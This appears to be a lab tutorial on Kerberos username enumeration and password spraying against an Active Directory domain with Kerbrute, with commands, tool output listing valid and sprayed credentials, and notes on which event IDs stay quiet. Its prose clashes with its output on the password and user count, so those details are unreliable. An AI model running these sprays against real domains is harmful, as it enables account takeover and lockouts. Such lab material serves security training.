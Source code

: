 # Account Enumeration & Password Spraying with Kerberos 


It is possible to test if a username exists or if a password is valid for an account using Kerberos. Indeed, following the first request made by a user, **AS-REQ**, the domain controller can respond differently depending on whether the username presented exists or not and, if it does, whether the password is correct or not. 


This **AS-REQ** request is how the [Kerbrute](https://github.com/ropnop/kerbrute) tool performs username enumeration and password spraying. 


Bruteforcing Windows usernames and passwords with Kerberos is very fast and potentially stealthier than other methods since pre-authentication failures do not trigger that "traditional" **An account failed to log on event 4625**. With Kerberos, you can validate a username or test a login by only sending one UDP frame to the KDC (Domain Controller).


## Kerbrute Install


To install Kerbrute, we need to download the binary from [kerbrute releases](https://github.com/ropnop/kerbrute/releases/), select the latest one for Linux kerbrute_linux_amd64, and change its privileges to be executable.



![kerbrute install](/Kerberos/Kerberos-Attacks/Acct-Enum-Password-Spray-w-Kerberos/images/kerbrute-install.png) 



## User Enumeration 



To enumerate usernames, **Kerbrute** sends TGT requests with no pre-authentication. If the KDC responds with a **PRINCIPAL UNKNOWN** error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and move on. This does not cause logon failures, so it will not lock out any accounts. This generates a Windows event ID **4768** if Kerberos logging is enabled. For this to work, we must provide the tool with a list of usernames, the domain controller's IP or hostname, and the domain. 



### User Enumeration 


In this example, we provided **Kerbrute** with a list of 209 usernames, and 1 of them was  valid. They were all checked in 1.111s, which is very fast.


	kerbrute/kerbrute2 userenum users.txt --dc dc01.inlanefreight.local -d inlanefreight.local

	    __             __               __     
	   / /_____  _____/ /_  _______  __/ /____ 
	  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
	 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
	/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

	Version: dev (n/a) - 01/19/24 - Ronnie Flathers @ropnop

	2024/01/19 12:47:47 >  Using KDC(s):
	2024/01/19 12:47:47 >   dc01.inlanefreight.local:88

	2024/01/19 12:47:47 >  [+] VALID USERNAME:       adam.jones@inlanefreight.local
	2024/01/19 12:47:48 >  Done! Tested 209 usernames (1 valid) in 1.111 seconds



![Kerbrute User Enum](/Kerberos/Kerberos-Attacks/Acct-Enum-Password-Spray-w-Kerberos/images/kerbrute-user-enum.png) 




## Password Spraying 


With **passwordspray, Kerbrute** will perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. This **does increment** the failed login count and can lock out accounts. This will generate **both event IDs 4768 - A Kerberos authentication ticket (TGT) was requested, and 4771 - Kerberos pre-authentication failed**. 



### Password Spraying 


kerbrute -users users-2.txt -password 'HTBRocks!' -dc-ip 10.129.205.35 -domain inlanefreight.local
Impacket for Exegol - v0.10.1.dev1+20230909.241.3001b261 - Copyright 2022 Fortra - forked by ThePorgs
                                                            
	[*] Valid user => Administrator
	[*] Blocked/Disabled user => Guest                                                                                      
	[*] Blocked/Disabled user => krbtgt
	[*] Valid user => derek.walker 
	[*] Valid user => carole.holmes
	[*] Valid user => callum.dixon 
	[*] Valid user => beth.richards
	[*] Stupendous => amber.smith:HTBRocks!
	[*] Stupendous => jenna.smith:HTBRocks!
	[*] Stupendous => carole.rose:HTBRocks!
	[*] Valid user => sqldev
	[*] Valid user => sqlprod
	[*] Valid user => sqlqa
	[*] Valid user => sql-test
	[*] Valid user => adam.jones
	[*] Valid user => jacob.kelly
	[*] Valid user => daniel.whitehead
	[*] Valid user => annette.jackson
	[*] Valid user => sandra.murphy
	[*] Valid user => debra.rogers 
	[*] Valid user => htb-student
	[*] Valid user => brian.willis
	[*] Stupendous => matilda.kens:HTBRocks!
	[*] Saved TGT in matilda.kens.ccache




In this case, we provided Kerbrute with a list of 117 usernames and the password inlanefreight2020. It was valid for four of them. 


![Password Spray](/Kerberos/Kerberos-Attacks/Acct-Enum-Password-Spray-w-Kerberos/images/password-spray.png) 


